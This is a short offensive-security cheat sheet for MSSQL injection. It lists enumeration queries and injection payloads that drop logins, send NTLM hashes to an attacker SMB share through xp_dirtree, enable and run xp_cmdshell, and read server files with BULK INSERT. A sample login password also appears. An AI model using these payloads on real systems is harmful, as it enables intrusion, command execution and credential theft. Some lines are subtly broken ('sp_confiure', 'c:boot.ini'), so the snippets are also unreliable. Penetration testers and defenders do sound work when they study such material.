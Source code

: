 # MSSQL Injection
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

- Authenticate using Kerberos
```
python3 mssqlclient.py -k dc1.scrm.local
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
```

- Basic Syntax
```sql
SELECT * FROM master.dbo.sysdatabases --Show databases
SELECT * FROM db_name.INFORMATION_SCHEMA.TABLES --show tables in database


USE table_name
SELECT * FROM INFORMATION_SCHEMA.COLUMNS
WHERE TABLE_NAME = N'table_name' --Show columns in tables

```
- Testing parameters. Blind SQL injection method.
```sql
q=10' UNION SELECT 1,2,3....10 -- -
q=10' EXEC sp_droplogin 'user'; -- -
q=10' SELECT HOST_NAME() -- -
```


### Command Execution

- Ending query and testing for `xp_dirtree` to nc listening on SMB.
This can be used to potentially intercept NTLM hashes.
```sql
q=10'; EXEC xp_dirtree '\\10.10.16.7\smb_fileshare\test.txt' -- -
```

- Testing for potential xp_cmdshell.
```sql
q=10'; EXEC xp_cmdshell 'ping 10.10.16.7' -- -
```

- Attempting to configure cmdshell if root/admin is available.
```sql
q=10'; 
EXEC sp_confiure 'show advanced options', 1; 
RECONFIGURE; 
EXEC sp_configure 'xp_cmdshell', 1; 
RECONFIGURE;

--Then execute...
EXEC xp_cmdshell 'ping 10.10.16.7' -- -
```

- Attempting to access local files if root/admin is available.
```sql
a=10'
CREATE TABLE malicious (line varchar(8000));
BULK INSERT malicious FROM 'c:boot.ini';
DROP TABLE malicious; -- -
```
